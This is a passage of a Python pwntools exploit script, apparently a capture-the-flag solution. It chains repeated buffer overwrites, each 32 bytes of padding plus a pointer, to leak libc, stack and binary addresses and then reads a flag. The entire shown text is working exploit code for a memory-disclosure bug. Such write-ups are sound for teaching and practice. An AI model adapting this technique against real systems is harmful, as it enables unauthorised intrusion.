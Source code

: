 ```python
    r.recvuntil(b':3\n')
    libc_leak = u64(r.recv(6).ljust(8, b'\x00'))
    info(f'libc leak: {hex(libc_leak)}')

    stack_addr = libc_leak + 0x7027
    r.sendafter(b'Continue?', b'Y')
    r.sendafter(b'name', b'A' * 32 + p64(stack_addr))

    r.recvuntil(b':3\n')
    stack_leak = u64(r.recv(6).ljust(8, b'\x00'))
    info(f'stack leak: {hex(stack_leak)}')

    bin_addr = stack_leak - 0x150
    r.sendafter(b'Continue?', b'Y')
    r.sendafter(b'name', b'A' * 32 + p64(bin_addr))

    r.recvuntil(b':3\n')
    bin_leak = u64(r.recv(6).ljust(8, b'\x00'))
    info(f'bin leak: {hex(bin_leak)}')

    flag_addr = bin_leak + 0x2d1e
    info(f'flag addr: {hex(flag_addr)}')
    r.sendafter(b'Continue?', b'Y')
    r.sendafter(b'name', b'A' * 32 + p64(flag_addr))

    r.recvuntil(b':3\n')
    
    r.interactive()


if __name__ == "__main__":
    main()
```
